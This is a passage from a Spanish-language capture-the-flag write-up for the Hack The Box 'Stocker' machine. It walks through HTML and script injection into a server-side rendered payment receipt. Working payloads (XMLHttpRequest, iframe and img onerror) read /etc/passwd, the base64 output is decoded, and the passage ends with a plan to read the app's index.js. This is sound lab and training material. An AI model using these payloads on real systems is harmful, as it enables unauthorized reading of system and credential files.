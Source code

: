```bash
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

tenemos que escapar las comillas dobles porque si no no funciona el payload

```bash
<script>x=new XMLHttpRequest;x.onload=function(){document.write(btoa(this.responseText))};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>
```

![](htb-writeup-stocker/stocker15.png)

![](htb-writeup-stocker/stocker16.png)

En el comprobante de pago vemos lo siguiente: una cadena codificada en base64, vamos a decodificarla con el siguiente comando

```bash
echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usrbase64: entrada inválida
```

Excelente!!! Vemos el /etc/passwd, en este punto ya podemos decir que estamos ante un File Inclusion y podemos ver archivos del sistema, lo siguiente sera ver el codigo fuente para escalar esta vulnerabilidad.

Pero vemos solo una parte del /etc/passwd, es decir solo las primeras 3 lineas. Para verlo completo podemos inyectar este payload:

```bash
<iframe src=file:///etc/passwd></iframe>
```

![](htb-writeup-stocker/stocker17.png)

![](htb-writeup-stocker/stocker18.png)

Otro payload que puede funcionar y tener un mejor resultado a la hora de leer archivos internos de la maquina es este

```bash
<img src=\"x\" onerror=\"document.write('<iframe src=file:///etc/passwd width=100% height=100%></iframe>')\" />
```

![](htb-writeup-stocker/stocker19.png)

Ya que tenemos perfeccionado lo de leer correctamente los archivos, quedaria tratar de leer el codigo fuente de la aplicacion web "index.js" de `/var/www/dev/index.js`
